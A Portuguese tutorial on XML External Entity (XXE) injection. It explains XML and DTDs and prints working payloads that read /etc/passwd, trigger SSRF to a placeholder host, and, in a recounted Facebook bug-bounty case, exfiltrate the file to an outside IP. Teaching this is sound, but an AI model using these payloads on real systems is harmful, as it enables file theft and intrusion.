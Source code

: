 # XML External Entity

### Oque é:

Esta falha ocorre quando o atacante consegue manipular o conteúdo de um arquivo XML ao enviá-lo para o servidor, fazendo com que o mesmo processe o arquivo e execute um código malicioso, esta falha pode em alguns casos escalar para um total comprometimento dele, ela também pode ser usada junto a um server-side request forgery.

### XML:

Primeiro irei exclarecer o que é o eXtensible Markup Language, ele é uma linguagem de marcação usada para descrever e compartilhar diversos tipos de dados, para isso são usados tags como no HTML entretanto no XML elas não são predefinidas e todas dever ser fechadas.

O XML esta caindo em desuso para transporte de dados na internet devido a sua alta escalabilidade de tamanho, agora o modelo usado é o JSON.

Este é um exemplo de um documento xml:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!-- Na primeira linha é definido o tipo do arquivo sua versão e o encoding usado -->
<raiz><!-- Aqui definimos o elemento raiz, os aquivos xml podem conter somente um dele-->
<!-- Todas as tags dentro da raiz são suas filhas-->
<!-- Podem existir várias tags filhas com o mesmo nome -->
	<filho>
		<Nome>Thiago</Nome>
		<Idade>17</Idade>
	</filho>
	<filho>
		<Nome>Carlos</Nome>
		<Idade>23</Idade>
	</filho>
	<filho>
		<Nome>Claudia</Nome>
		<Idade>40</Idade>
	</filho>
</raiz><!-- Aqui fechamos raiz, tudo dentro dela é sua filha -->
```

Dentro do xml existe um o conceito de DTD, que é um Document Type Definition, eles são usados para descrever como o arquivo xml será, sua sintaxe é simples, veja:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!-- Usamos o DOCTYPE para declarar o inicio de um elemento raiz -->

<!DOCTYPE raiz [

    <!ELEMENT raiz (nome,telefone)>
	<!-- Dentro dele definimos seus elementos filhos usando a tag element -->
    <!ELEMENT nome (#PCDATA)>
    <!-- E definimos como os elementos filhos serão neste caso,texto --> 	
    <!ELEMENT telefone (#PCDATA)>
]>
<!-- Abaixo é feita a declaração deles -->
<raiz>
  <nome>Thiago</nome>
  <telefone>(011) 123-4567</telefone>
</raiz>
```

o exemplo acima é de um DTD interno mas eles também podem ser adquiridos externamente:
```xml

<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
<!DOCTYPE endereço SYSTEM "endereço.dtd"><!--Usamos o comando SYSTEM para definir o caminho do arquivo -->
<endereço>
  <nome>Thiago</nome>
  <telefone>(011) 123-4567</telefone>
</endereço>
```

### Funcionamento técnico:

Como você já deve ter imaginado o 'problema' desta falha está quando podemos setar DTD externos, ao enviar um xml como este para uma página:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
o body da response conteria isto:
```
Quantidade de produtos para 381: 37
```

como pode ser percebido, o valor setado é refletido na response, logo podemos injetar um valor malicioso como este:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><!-- Aqui setamos o que seria um DDT externo
e guardamos seu valor dentro da 'variável' xxe-->
<stockCheck><productId>&xxe;</productId></stockCheck><!-- Chamamos a 'variável' usando o &xxe;-->
```

a response nesse caso conteria o valor do arquivo ```/etc/passwd```.

Esse ataque também pode ser usado para gerar um SSRF, como citado acima, para isto basta substituir o valor do arquivo para um valor HTTP.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://attack.com"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Caso o valor não seja refletido na response, tente fazer como foi ensinado no artigo sobre [SSRF](Server%20Side%20Request%20Forgery.md), injete um site sob seu domínio e analise se a response chega ou não, caso chegue o mesmo é vulnerável a SSRF por XXE.

### Exemplo:

No final de 2013, Reginaldo Silva reportou uma falha do tipo xxe para o facebook e recebeu $30000, ela poderia facilmente ser escalada para uma falha do tipo remote code execution já que o atacante poderia ler os arquivos ```/etc/passwd```, ela foi corrigida logo em seguinte.

Sabendo disso, no meio de 2014, Mohamed decidiu ver se conseguiria hackear o facebook, ele acessou uma página de carreiras na qual o usuário poderia sertar uma arquivo docx, esta extensão foi uma junção do doc com o xml, ela foi feita para facilitar a abertura e manipulação de arquivos doc, caso queira é possível extrair um arquivo docx você encontrará algo parecido com isto:


![](https://www.devmedia.com.br/imagens/articles/233575/openxmlexe3.png)

Ao perceber que poderia injetar um arquivo docx, o pesquisador extraiu o mesmo e injetou no xml esta carga maliciosa:

```xml
<!DOCTYPE root [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % dtd SYSTEM "http://197.37.102.90/ext.dtd">
%dtd;
%send;
]]>
```
como podem perceber o valor ```%dtd``` faz referência a um arquivo dtd externo, e ao chamá-lo é verificado uma entity como esta:

```xml
<!ENTITY send SYSTEM 'http://197.37.102.90/?FACEBOOK-HACKED%26file;'>
```
ao enviar este payload o pesquisador percebeu requests chegando em seu servidor python, logo o facebook estava vulnerável a xxe novamente.

A princípio o facebook não conseguiu reproduzir a falha, por isto MOhamed quase não recebeu o bounty, mas após algumas trocas de emails o facebook encontrou e corrigiu a falha.

O pesquisador recebeu $6300 por esta falha, o valor foi menor que o de 2013 pois lá era possível escalar a falha para um Remote Code Execution.

### Como explorar:

Não há muitos segredos na exploração desta falha, esteja atento a arquivos XML que podem ser manipulados, caso os encontre e o valor seja refletido tente definir entitys externas para leitura de arquivos ou caso o não seja refletido tente injetar uma entity que faça referência a um servidor o qual você pode analisar a interação.
